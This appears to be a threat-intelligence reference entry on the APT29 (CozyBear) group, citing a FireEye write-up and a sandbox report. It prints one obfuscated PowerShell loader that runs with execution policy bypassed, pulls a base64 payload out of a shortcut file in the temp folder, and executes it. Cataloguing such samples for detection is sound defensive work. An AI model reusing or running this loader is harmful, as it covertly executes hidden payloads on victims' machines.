 ## CozyBear_APT29.md


#### Commands
---

* Powershell.exe

1.

```
-noni -ep bypass
$zk='JHB0Z3Q9MHgwMDA1ZTJiZTskdmNxPTB4MDAwNjIzYjY7JHRiPSJkczcwMDIubG5
rIjtpZiAoLW5vdChUZXN0LVBhdGggJHRiKSl7JG9lPUdldC1DaGlsZEl0ZW0gLVBhdGggJE
Vudjp0ZW1wIC1GaWx0ZXIgJHRiIC1SZWN1cnNlO2lmICgtbm90ICRvZSkge2V4aXR9W
0lPLkRpcmVjdG9yeV06OlNldEN1cnJlbnREaXJlY3RvcnkoJG9lLkRpcmVjdG9yeU5hbWUp
O30kdnp2aT1OZXctT2JqZWN0IElPLkZpbGVTdHJlYW0gJHRiLCdPcGVuJywnUmVhZCcsJ
1JlYWRXcml0ZSc7JG9lPU5ldy1PYmplY3QgYnl0ZVtdKCR2Y3EtJHB0Z3QpOyRyPSR2en
ZpLlNlZWsoJHB0Z3QsW0lPLlNlZWtPcmlnaW5dOjpCZWdpbik7JHI9JHZ6dmkuUmVhZC
gkb2UsMCwkdmNxLSRwdGd0KTskb2U9W0NvbnZlcnRdOjpGcm9tQmFzZTY0Q2hhckFy
cmF5KCRvZSwwLCRvZS5MZW5ndGgpOyR6az1bVGV4dC5FbmNvZGluZ106OkFTQ0lJL
kdldFN0cmluZygkb2UpO2lleCAkems7';$fz='FromBase'+0x40+'String';$rhia=[Text.E
ncoding]::ASCII.GetString([Convert]::$fz.Invoke($zk));iex $rhia;
```


#### Regular Expressions
---


#### Resources
---

Technical write-ups:
* https://www.fireeye.com/blog/threat-research/2018/11/not-so-cozy-an-uncomfortable-examination-of-a-suspected-apt29-phishing-campaign.html

Sandbox reports:
* https://www.hybrid-analysis.com/sample/2cea2a1f53dac3f4fff156eacc2ecc8e98b1a64f0f5b5ee1c42c69d9a226c55c?environmentId=100

Notes:



 
